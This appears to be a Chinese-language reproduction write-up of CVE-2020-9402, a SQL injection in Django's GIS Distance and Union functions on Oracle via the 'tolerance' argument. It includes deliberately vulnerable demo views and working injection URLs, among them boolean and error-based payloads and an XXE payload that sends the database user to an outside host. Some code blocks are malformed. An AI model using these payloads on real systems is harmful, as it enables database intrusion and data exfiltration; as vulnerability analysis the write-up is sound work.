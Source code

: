 ```yaml
---
title: （CVE-2020-9402）Django Geo sql注入
id: zhfly2888
---
```


# （CVE-2020-9402）Django Geo sql注入

## 一、漏洞简介

Django 1.11.29之前的1.11.x版本、2.2.11之前的2.2.x版本和3.0.4之前的3.0.x版本中存在SQL注入漏洞。攻击者可借助特制的SQL语句利用该漏洞查看、添加、修改或删除数据库中的信息。

## 二、漏洞影响

Django 1.11.29之前的1.11.x版本、2.2.11之前的2.2.x版本和3.0.4之前的3.0.x版本中存在SQL注入漏洞

## 三、复现过程

根据官网的修复https://github.com/django/django/commit/6695d29b1c1ce979725816295a26ecc64ae0e927#diff-229e38ececbfc591f7a5e595bf5707c4，可以看到问题出在GIS的查询上面

![image](../img/4001c7102fd4edbb5d99e20d00630e34.png)

![image](../img/be2455a91aeaa6c76fda084d6270d15b.png)

官方只修复了这两个位置，可以发现基本上是对于`tolerance`参数进行判断是否为数字。那首先来了解一下GIS查询。

GIS查询API是一个地理位置的查询API，提供用户存储精确GPS的位置的数据模块，属于一个空间数据库，我们可以通过如下的经纬度信息

```
pnt = GEOSGeometry('POINT(-96.876369 29.905320)', srid=4326) `>>>SRID=4326;POINT (-96.876369 29.90532)` 
```

来获得一个具体的定位信息,通过如下的模块来构建一个基本的地理信息存储

```
from django.contrib.gis.db import models
class Names(models.Model):
    name = models.CharField(max_length=128)

```
def __str__(self):
    return self.name 
``` `class Interstate(Names):

path = models.LineStringField()` 
```

后台存储的时候发出path的信息为json数据，例如

```
{"type":"LineString","coordinates":[[-8167.236601807093,-3286.248045708844],[-7896.285624495958,-3324.9553281818644],[1083.8039092445451,-654.1528375435246]]} 
```

![image](../img/50b47c7c8a562c4b4349c8880e45343b.png)

我们就获得了一个基本的地理位置数据,同理，通过构造一个聚合的查询方法

```
def vuln(request):
    q = request.GET.get('q')
    qs=Interstate.objects.annotate(
            d=Distance(
                Point(-0.0733675346842369, -0.0295208671625432, srid=4326),
                Point(0.009735976166628611, -0.00587635491086091, srid=4326),
                tolerance = q, # default 0.05
            ),
        ).filter(d=D(m=1)).values('name') 
```

因为官网文档找不到如何构造Point查询，因此为了省事，直接写死了Point数值。。srid为空间参考的投影设置，默认值为4326。其中`tolerance`是对于oracle特殊存在的一个键值，其作用是基本你的容错率，详细的信息可以参考[oracle官方文档](https://docs.oracle.com/en/database/oracle/oracle-database/18/spatl/spatial-concepts.html#GUID-CE10AB14-D5EA-43BA-A647-DAC9EEF41EE6)。对应的查询语句为

```
SELECT "APP_NAMEDMODEL"."NAME" FROM "APP_INTERSTATE" INNER JOIN "APP_NAMEDMODEL" ON ("APP_INTERSTATE"."NAMEDMODEL_PTR_ID" = "APP_NAMEDMODEL"."ID") WHERE SDO_GEOM.SDO_DISTANCE(SDO_GEOMETRY(POINT (-0.0733675346842369 -0.0295208671625432),4326), SDO_GEOMETRY(POINT (0.009735976166628611 -0.00587635491086091),4326), 0.05) =  1.0 FETCH FIRST 21 ROWS ONLY; 
```

**0x02代码分析**
首先从传入一个url

```
http://127.0.0.1:8000/vuln/?q=20) = 1 OR 1=1 OR (1%2B1 
```

从`annotate`聚合函数开始跟进，同普通的model函数查询一样，gis查询虽然拥有着单独的model模块，但依旧还是依靠着普通model中进行过滤和查询。从gis的model文件夹中的`__init__.py`文件中看

![image](../img/e027e3c87ede9bb57ac1c66821ec9194.png)

主要的查询依然调用的是django最基本的db方法，而其中单独定义了`function`方法等一些对地理位置插叙独特的方法。程序运行到`/django/db/models/manager.py`文件中的`_get_queryset_methods`后，获取到tolerant参数之后便直接进入到gis模块中进行查询

![image](../img/20d8c2e4266f658f0b40a3ec8f27dce9.png)

继而进入到`django/contrib/gis/measure.py`文件中的`MeasureBase`类中进行方法调用，那么后面的方法分析可以跳过，因此直接来到漏洞代码段。先来看gis API中的functions函数，在as_oracle方法这一段

```
def as_oracle(self, compiler, connection, **extra_context):
    tol = self.extra.get('tolerance', self.tolerance)
    return self.as_sql(
        compiler, connection,
        template="%%(function)s(%%(expressions)s, %s)" % tol,
        **extra_context
    ) 
```

`tolerance` 从self.extra.get导入，该方法会搜索全局变量的值，如果该值不存在，则直接设置为0.05，并且将其直接传入到新的变量中。之后则不对tol进行任何处理直接拼接到template字符串中并且传入`as_sql`方法。那么官方对于as_sql的文档是，此方法需要一个SQLCompiler对象，位于`django/db/models/sql/compiler.py`文件中。而我们只需要知道在该对象中有一个`compile()`方法，该方法可以返回一个包含SQL字符串的元祖，而SQLComiler对象中的query变量则是存储直接进行SQL查询语句的SQL命令。从而两个Point分别进入`compile`方法中进行拼接

![image](../img/7d5ce17ea92c6638d3b630613a9fb2cd.png)

不知道为什么，用pycharm在as_oracle下断点的时候，第一次到达SQLCompiler的时候，pycharm不会在as_oracle函数中停下来，而是在第二次查询的时候才会停，但是经过测试确实是在进入SQLCompiler之前调用过as_orcle函数，可能是pycharm没有正确识别重载函数吧。之后template构造模版也因此进入到`expression.py`中的as_sql函数中进行字符串构造

![image](../img/4380b584f2e803a5c9e84db724be2749.png)

因此最后进入oracle的命令语句是

```
SELECT "APP_NAMEDMODEL"."NAME" FROM "APP_INTERSTATE" INNER JOIN "APP_NAMEDMODEL" ON ("APP_INTERSTATE"."NAMEDMODEL_PTR_ID" = "APP_NAMEDMODEL"."ID") WHERE SDO_GEOM.SDO_DISTANCE(SDO_GEOMETRY(POINT (-0.0733675346842369 -0.0295208671625432),4326), SDO_GEOMETRY(POINT (0.009735976166628611 -0.00587635491086091),4326), 0.05) = 1 OR 1=1  OR (1+1) = 1.0 FETCH FIRST 21 ROWS ONLY; 
```

![image](../img/d863ec736b19cc345ee03e518347ada6.png)

带入数据库中查询

![image](../img/8d75b8a222415728d69d2775f1c732c0.png)

![image](../img/4c55ad56c79fc71e41c53522f8447b59.png)

官方修复的方法就是加入Value函数，判断传入的值是否为数字，否的话直接报错推出。那么第二个注入点就是`Union`了，建立Model

```
class City(Names):
    point = models.PointField()  # 点模块 
```

编辑传入的参数为

```
{"type":"Point","coordinates":[13250.226757682816,68815.69380603009]} 
```

view中设置查询

```
from django.contrib.gis.db.models import Union
def vuln2(request):
    q = request.GET.get('q')
    res = City.objects.aggregate(
            Union('point', tolerance=q),
    )
    return HttpResponse(res) 
```

输入url

```
http://127.0.0.1:8000/vuln2?q=0.05)))%2C%20(((1 
```

首先看结果，得到的SQL查询语句为

```
SELECT SDO_UTIL.TO_WKBGEOMETRY(SDO_AGGR_UNION(SDOAGGRTYPE("APP_CITY"."POINT",0.05))), (((1))) AS "POINT__UNION" FROM "APP_CITY"; 
```

![image](../img/ed5a98bf03b53288e05b7e938d15af66.png)

该aggregate查询方法是GIS查询特定的一种查询方法，为的是与地理查询的语句做适配,用法跟原模块的方法类似。因此跟进GIS模块中的聚合查询方法，位于`django/contrib/gis/db/models/aggregates.py`文件内的as_oracle方法。

![image](../img/a7fa788e2fb3f8974986696c8879e640.png)

同样tolerance没有做任何检查直接传入了template模版语句中，原理与上面annotate查询过程一致。利用有大致两个方法
报错注入

```
http://localhost:8000/test/?q=20) = 1 OR (select utl_inaddr.get_host_name((SELECT version FROM v%24instance)) from dual) is null%20 OR (1%2B1 
```

![image](../img/c8cff634ec6996318f116355a45c2594.png)

CVE-2014-6577
因为Django自2.0以后支持的oracle版本为12以上，因此可以尝试oracle XXE来进行SQL的注入。同时因为在SQL处理的过程中有三次利用%的模版跳转，因此需要在XMLpayload中的%替换为%%%%，payload为

```
http://localhost:8000/test/?q=20) = 1 OR (select%20extractvalue(xmltype('%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%3C!DOCTYPE%20root%20%5B%20%3C!ENTITY%20%25%25%25%25%20remote%20SYSTEM%20%22http%3A%2F%2Fdocker.for.mac.host.internal%3A9000%2F'%7C%7C(SELECT%20user%20from%20dual)%7C%7C'%22%3E%20%25%25%25%25remote%3B%5D%3E')%2C'%2Fl')%20from%20dual)%20is%20not%20null OR (1%2B1 
```

![image](../img/deb8db37543ec569ee0d991a093d7b03.png)

命令执的话因为是docker起的oracle所以没有设置JAVA的环境，暂时也不能判定有没有，以后再研究看看。

## 参考链接

> https://xz.aliyun.com/t/7403